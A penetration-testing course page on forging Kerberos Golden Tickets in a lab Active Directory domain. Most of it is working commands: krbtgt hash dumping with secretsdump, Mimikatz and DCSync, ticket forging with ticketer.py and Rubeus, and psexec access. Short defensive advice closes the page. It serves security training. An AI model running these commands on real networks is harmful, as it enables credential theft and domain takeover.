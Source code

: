 # 8.1 - Golden Ticket

## Golden Ticket Attack

A **Golden Ticket** is a forged Ticket Granting Ticket (TGT) that is signed and encrypted using the **NTLM hash of the `krbtgt` account**, making it appear as a legitimate TGT to the domain.

This means that the first step, the exchange of AS-REP and AS-REQ messages, is skipped. The TGT is crafted and the interaction with the KDC occurs only by exchanging the spoofed TGT with the TGS.

To create a golden ticket we need the following **requirements**:

1. Domain name
2. Domain SID
3. NTLM hash of the KRBTGT account
4. Username of user that we want to impersonate.&#x20;

The requirement hardest to find is the NTLM hash of the KRBTGT account.

This attack permits to do lateral movement and take persistence.

With the `krbtgt` hash, it is possible to impersonate **any user with any privileges**, even from a machine that is not domain-joined.

## 1 - Obtain requirements to forge GT

### **Retrieve domain name**

Using `systeminfo` command we can retrieve the domain name

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

### Enumerate domain SID

```bash
lookupsid.py 'Administrator:P@$$W0rd'@192.168.57.9
```

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

or if we've already an access to machine (eg. reverse shell) we can execute `whoami /user` (excluding the last 4 chars, eg. `-500`): `S-1-5-21-1954621190-1971745961-1283776715`

<pre class="language-powershell"><code class="lang-powershell"><strong>User Name                  SID
</strong>========================== =============================================
dev-angelist\administrator S-1-5-21-1954621190-1971745961-1283776715-500
</code></pre>

<figure><img src="../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

### Extract NTLM hash of the KRBTGT account

We can use Impacket or Mimikatz (or a variant) on the **Domain Controller as Domain Admin**:

**Impacket/secretsdump.py**

```bash
secretsdump.py 'Administrator:P@$$W0rd'@192.168.57.9 -outputfile krb -user-status
```

and consider the 4th part of string after the third ':'

<figure><img src="../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

NTLM hash of the KRBTGT account is: `d7ac4db5b820be57cc79f58f196a0e5b`

**Mimikatz**

Download and extract Mimikatz:

```powershell
iwr -uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
Expand-Archive -Path 'mimikatz_trunk.zip'
cd .\mimikatz_trunk\
cd .\x64\
```

and run it:

```powershell
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

KRBTGT's NTLM: `d7ac4db5b820be57cc79f58f196a0e5b`

Using SafetyKatz:

```bash
C:\Users\Administrator\Documents\Tools\SafetyKatz.exe "lsadump::lsa /patch"
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Alternatively, use **DCSync** to retrieve the AES keys without executing code on the DC (requires DA or replication rights):

```bash
C:\Users\Administrator\Documents\Tools\SafetyKatz.exe "lsadump::dcsync /user:dev-angelist\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

***

## 2 - Forge a Golden Ticket

#### **Ticketer/Impacket**

Forge the golden ticket using ticketer.py an impacket's script suite, its duration end after 10 yeas from the moment of creation. The command below contain all requirements needed:

* Domain name -> `dev-angelist.lab`
* Domain SID -> `S-1-5-21-1954621190-1971745961-1283776715`
* NTLM hash of the KRBTGT account -> `d7ac4db5b820be57cc79f58f196a0e5b`
* Username of user that we want to impersonate -> Administrator

```
ticketer.py -nthash <HashValue> -domain-sid <SIDValue> -domain <DomainName> <Username>
```

```
ticketer.py -nthash d7ac4db5b820be57cc79f58f196a0e5b -domain-sid S-1-5-21-1954621190-1971745961-1283776715 -domain dev-angelist.lab Administrator
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

The ticket is saved in Administrator.ccache, if we need to use specific tools we need to convert it to kirbi format

```bash
export KRB5CCNAME=/home/kali/Documents/AD/Administrator.ccache
ticketConverter.py /home/kali/Documents/AD/Administrator.ccache Administrator.kirbi
```

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

In this case original .ccache format is compliant with Impacket.

**Set ticket into the active cache**

```
export KRB5CCNAME=/home/kali/Documents/AD/Administrator.ccache
```

**Check active tickets using `klist`**

<pre class="language-bash"><code class="lang-bash"><strong>#If you've not installed krb5 package, install it -> sudo apt install krb5-user
</strong><strong>klist
</strong>
</code></pre>

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Now, we need to syncronize clock and inject our ticket using psexec.py

```bash
cat /etc/hosts | grep dev-angelist.lab
sudo ntpdate -u 192.168.57.9
psexec.py -k -no-pass dev-angelist.lab/administrator@corp-dc.dev-angelist.lab
```

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

#### Rubeus

Use **Rubeus** to generate a forged TGT with attributes similar to a legitimate one:

```powershell
C:\Users\Administrator\Documents\Tools\Rubeus.exe golden /aes256:<krbtgt AES256 hash> /sid:<domain SID> /ldap /user:Administrator /printcmd
```

This command triggers **three LDAP queries** to the DC to retrieve:

1. User account flags
2. Group membership, primary group ID, minpassage, maxpassage
3. NetBIOS name of the domain

If these values are already known, they can be **manually specified** to avoid unnecessary LDAP traffic (for better OPSEC).

krbtgt's aes256: `e4acbc3756e23a3c9a2604068c4a3bcaad93f38bf5590aa16ee1b3c9431c3abb`

```powershell
C:\Users\Administrator\Documents\Tools\Rubeus.exe golden /aes256:e4acbc3756e23a3c9a2604068c4a3bcaad93f38bf5590aa16ee1b3c9431c3abb /sid:S-1-5-21-1954621190-1971745961-1283776715 /ldap /user:Administrator /printcmd
```

<figure><img src="../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

***

#### Key Options Explained

| Option           | Description                                                 |
| ---------------- | ----------------------------------------------------------- |
| `/aes256:<hash>` | AES256 hash of the `krbtgt` account. Stealthier than NTLM.  |
| `/user`          | Username to impersonate.                                    |
| `/id`            | RID of the user (default for Administrator: 500).           |
| `/pgid`          | Primary Group ID (default: 513).                            |
| `/groups`        | Group RIDs the user belongs to (e.g., 512 = Domain Admins). |
| `/domain`        | Fully Qualified Domain Name (FQDN).                         |
| `/sid`           | Domain SID.                                                 |
| `/pwdlastset`    | Timestamp of the last password set (for the user).          |
| `/minpassage`    | Minimum password age (in days).                             |
| `/logoncount`    | Number of logons for the user.                              |
| `/netbios`       | NetBIOS name of the domain.                                 |
| `/dc`            | FQDN of the Domain Controller.                              |
| `/uac`           | UserAccountControl flags (e.g., `DONT_EXPIRE_PASSWORD`).    |
| `/ptt`           | Injects the ticket directly into the current process.       |

To protect against this attacks:

* regularly rotate the KRBTGT password
* Enforce least privilege
* Enable additional authentication mechanisms like MFA
* Enbale LSA Protection (RunASPPL) on LSASS

Check if LSA Protection is activated:

```
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunASPPL"
```

To enable LSA Protection:

```
reg add "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1 /f
```

### Other References

* [http://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-\
  and.html](http://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-and.html)

### Labs

* [Learning Object 8 lab](../lab/8-lo8.md)
